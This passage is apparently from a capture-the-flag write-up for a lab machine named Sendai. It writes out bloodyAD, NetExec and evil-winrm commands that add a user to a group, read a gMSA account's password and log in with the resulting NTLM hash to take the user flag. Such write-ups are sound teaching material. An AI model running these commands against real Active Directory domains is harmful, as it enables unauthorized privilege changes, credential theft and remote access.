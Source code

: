 In summry, I will have to add either of one of 2 users in Support group to ADMSVC group and then use NetExec to read GMSA password of MGTSVC$ account which I will gain a foothold using evil-winrm. now lets start the operation.

## Initial Access - GenericAll on group and ReadGMSAPassword
With that long explaination but in actual engagement, Only 2 commands can be used to get actually read GMSA password as 1 of resetted password user I have as shown below.
```
bloodyAD -u 'Elliot.Yates' -p 'Password123' -d 'sendai.vl' --host 'dc.sendai.vl' add groupMember "admsvc" 'Elliot.Yates'
nxc ldap dc.sendai.vl -u 'Elliot.Yates' -p 'Password123' --gmsa
```
![3be972be29c21c206cd85bb14e43bec6.png](/resources/3be972be29c21c206cd85bb14e43bec6.png)

Before attempting to connect with evil-winrm for the foothold, I check if this credential is correct and sure enough, I can use it to get a foothold on this machine.

![c63361de602c5ba4f3dd410a4ddc2365.png](/resources/c63361de602c5ba4f3dd410a4ddc2365.png)

Connect to the machine and loot the user flag located on the root folder of C drive.
```
evil-winrm -i dc.sendai.vl -u 'mgtsvc$' -H eb19b37b20218824d3c29f753fd5f607
```
![052097802503786f491796edf233380b.png](/resources/052097802503786f491796edf233380b.png)

